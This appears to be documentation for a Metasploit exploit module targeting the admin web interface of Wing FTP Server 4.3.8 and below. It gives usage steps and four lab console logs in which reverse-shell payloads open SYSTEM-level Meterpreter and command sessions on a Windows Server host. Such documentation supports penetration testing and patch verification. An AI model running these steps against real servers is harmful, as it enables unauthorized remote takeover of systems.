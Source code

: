 ## Description ##

This module exploits the embedded Lua interpreter in the admin web interface for versions 4.3.8 and below of Wing FTP Server. When supplying a specially crafted HTTP POST request an attacker can use os.execute() to execute arbitrary system commands on the target with SYSTEM privileges.

Only versions of Wing FTP Server after 3.0.0 ship with the Lua interpreter and the admin web interface. This makes versions < 3.0.0 most probably NOT vulnerable to this exploit, simply due to the fact that they do not have the capability execute commands this way.

The full changelog for Wing FTP Server can be found at [https://www.wftpserver.com/serverhistory.htm].

Information about the admin web interface can be found at [https://www.wftpserver.com/help/ftpserver/index.html?administrator_console.htm].

## Vulnerable application ##

3.0.0 < Wing FTP Server Version <= 4.3.8

## Verification Steps ##

1. Start `msfconsole`
2. Do `use exploit/windows/ftp/wing_ftp_admin_exec`
3. Do `set RHOST <target-ip>`
4. Do `set USERNAME <valid-username>`
5. Do `set PASSWORD <valid-password>`
6. Optional: Do `set PAYLOAD windows/<your-preferred-shell>` (default is `windows/meterpreter/reverse_tcp`)
7. Do `set LHOST <your-ip>`
8. Optional: Do `set TARGET <target>` to specify whether PowerShell/CmdStager will be used (default is `PowerShell`)
9. Do `exploit`
10. Verify that a shell of your specified type (Meterpreter, plain old shell, etc.) pops

## Tested with Wing FTP Server 4.3.8 installed on Windows Server 2016 Datacenter x64 ##

### With PowerShell using x64 meterpreter ###

```
msf5 > use exploit/windows/ftp/wing_ftp_admin_exec 
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Executing payload via Powershell...
[*] Sending stage (206403 bytes) to 192.168.136.151
[*] Meterpreter session 1 opened (192.168.136.146:4444 -> 192.168.136.151:17007) at 2018-12-08 02:44:27 +0800

meterpreter > sysinfo
Computer        : 2K16DTCTR
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### with PowerShell using x86 shell_reverse_tcp ###

```
msf5 > use exploit/windows/ftp/wing_ftp_admin_exec
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf5 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Executing payload via Powershell...
[*] Command shell session 2 opened (192.168.136.146:4444 -> 192.168.136.151:17067) at 2018-12-08 02:45:48 +0800



C:\Windows\system32>whoami & hostname & systeminfo
whoami & hostname & systeminfo
nt authority\system
2K16DTCTR

Host Name:                 2K16DTCTR
OS Name:                   Microsoft Windows Server 2016 Datacenter
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
<... snip ...>
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.136.254
                                 IP address(es)
                                 [01]: 192.168.136.151
                                 [02]: fe80::8cb0:9bf1:fefe:5fbd
                           [02]: Microsoft KM-TEST Loopback Adapter
                                 Connection Name: Npcap Loopback Adapter
                                 Status:          Hardware not present
<... snip ...>
```

### with CmdStager using x64 meterpreter ###

```
msf > use exploit/windows/ftp/wing_ftp_admin_exec
msf exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf exploit(windows/ftp/wing_ftp_admin_exec) > set TARGET CmdStager 
TARGET => CmdStager
msf exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Sending payload
[*] Command Stager progress -  12.42% done (1499/12068 bytes)
[*] Command Stager progress -  24.84% done (2998/12068 bytes)
[*] Command Stager progress -  37.26% done (4497/12068 bytes)
[*] Command Stager progress -  49.69% done (5996/12068 bytes)
[*] Command Stager progress -  62.11% done (7495/12068 bytes)
[*] Command Stager progress -  74.53% done (8994/12068 bytes)
[*] Command Stager progress -  86.53% done (10442/12068 bytes)
[*] Command Stager progress -  98.75% done (11917/12068 bytes)
[*] Sending stage (206403 bytes) to 192.168.136.151
[*] Command Stager progress - 100.00% done (12068/12068 bytes)
[*] Meterpreter session 3 opened (192.168.136.146:4444 -> 192.168.136.151:1631) at 2018-12-07 02:49:01 +0800

meterpreter > sysinfo
Computer        : 2K16DTCTR
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### With CmdStager using x86 shell_reverse_tcp ###

```
msf > use exploit/windows/ftp/wing_ftp_admin_exec
msf exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 192.168.136.151
RHOST => 192.168.136.151
msf exploit(windows/ftp/wing_ftp_admin_exec) > set USERNAME admin
USERNAME => admin
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PASSWORD 5up3r53kr3tp@$$w0rd
PASSWORD => 5up3r53kr3tp@$$w0rd
msf exploit(windows/ftp/wing_ftp_admin_exec) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(windows/ftp/wing_ftp_admin_exec) > set LHOST 192.168.136.146
LHOST => 192.168.136.146
msf exploit(windows/ftp/wing_ftp_admin_exec) > set TARGET CmdStager 
TARGET => CmdStager
msf exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Authenticating...
[+] Wing FTP Server 4.3.8 appears vulnerable.
[*] Sending payload
[*] Command Stager progress -   1.47% done (1499/102292 bytes)
[*] Command Stager progress -   2.93% done (2998/102292 bytes)
[*] Command Stager progress -   4.40% done (4497/102292 bytes)
[*] Command Stager progress -   5.86% done (5996/102292 bytes)
[*] Command Stager progress -   7.33% done (7495/102292 bytes)
[*] Command Stager progress -   8.79% done (8994/102292 bytes)
[*] Command Stager progress -  10.26% done (10493/102292 bytes)
<... snip ...>
[*] Command Stager progress -  99.55% done (101827/102292 bytes)
[*] Command Stager progress - 100.00% done (102292/102292 bytes)
[*] Command shell session 4 opened (192.168.136.146:4444 -> 192.168.136.151:1639) at 2018-12-07 02:52:10 +0800


C:\Windows\system32>whoami & hostname & systeminfo
whoami & hostname & systeminfo
nt authority\system
2K16DTCTR

Host Name:                 2K16DTCTR
OS Name:                   Microsoft Windows Server 2016 Datacenter
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
<... snip ...>
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.136.254
                                 IP address(es)
                                 [01]: 192.168.136.151
                                 [02]: fe80::8cb0:9bf1:fefe:5fbd
                           [02]: Microsoft KM-TEST Loopback Adapter
                                 Connection Name: Npcap Loopback Adapter
                                 Status:          Hardware not present
<... snip ...>
```
